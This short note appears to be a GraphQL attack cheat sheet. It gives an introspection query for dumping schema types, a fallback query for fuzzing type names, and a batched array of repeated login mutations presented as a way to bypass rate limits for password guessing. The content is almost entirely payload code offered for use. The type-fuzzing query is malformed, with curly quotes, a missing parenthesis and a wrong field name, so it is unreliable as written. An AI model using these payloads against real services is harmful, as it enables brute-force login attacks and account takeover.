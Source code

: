 
Instrospection gives user information on schema, queries, mutations. This may be disabled.

#### Query Payloads

Query schema if not blocked:
```GraphQL
query {
	__schema{
			types {
				name				
			}	
	}
}
```

Query types if schema is blocked. Able to fuzz the name value.
```GraphQL
query {
	__types(name: “User”{
				name				
				fields {
					name				
				}	
	}
}
```

Bypass Rate Limits with Batch Requests:
```GraphQL
[
  {
    "query": "mutation { login(email: \"name@name.com\", password: \"password\") { token } }",
    "variables": {}
  },
  {
    "query": "mutation { login(email: \"name@name.com\", password: \"password\") { token } }",
    "variables": {}
  },
  {
    "query": "mutation { login(email: \"name@name.com\", password: \"password\") { token } }",
    "variables": {}
  }
]

```

